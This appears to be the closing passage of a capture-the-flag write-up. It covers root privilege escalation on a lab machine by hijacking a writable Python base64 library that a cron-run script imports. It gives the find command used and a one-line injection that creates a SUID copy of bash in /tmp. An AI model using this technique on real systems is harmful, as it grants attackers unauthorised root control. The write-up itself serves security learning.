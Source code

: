 There is a python script running every minute, let's check it.

```python
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)

```

The script import `base64` library, goes to `/photos` and opens every jpg file from `p1.jpg to p7.jpg` through a loop, encodes every file with base64 and write it to `/photos/photoVault`.

Nothing we can do to exploit the script but the one thing that's left is the `base64` library, if it's writable we can exploit it.

```terminal
valley@valley:~$ find / -type f -name 'base64.py' -ls 2>/dev/null
   263097     20 -rwxrwxr-x   1 root     valleyAdmin    20382 Mar 13 03:26 /usr/lib/python3.8/base64.py
     3929     20 -rwxr-xr-x   1 root     root           20382 Nov 14  2022 /snap/core20/1828/usr/lib/python3.8/base64.py
     3906     20 -rwxr-xr-x   1 root     root           20382 Jun 22  2022 /snap/core20/1611/usr/lib/python3.8/base64.py
```

Lucky for us it is writable.

We can inject the following python script to it that would create a copy of bash with suid permission into `/tmp`

```python
import os; os.system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash")
```

![](16.png)

Nice, we got root.


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
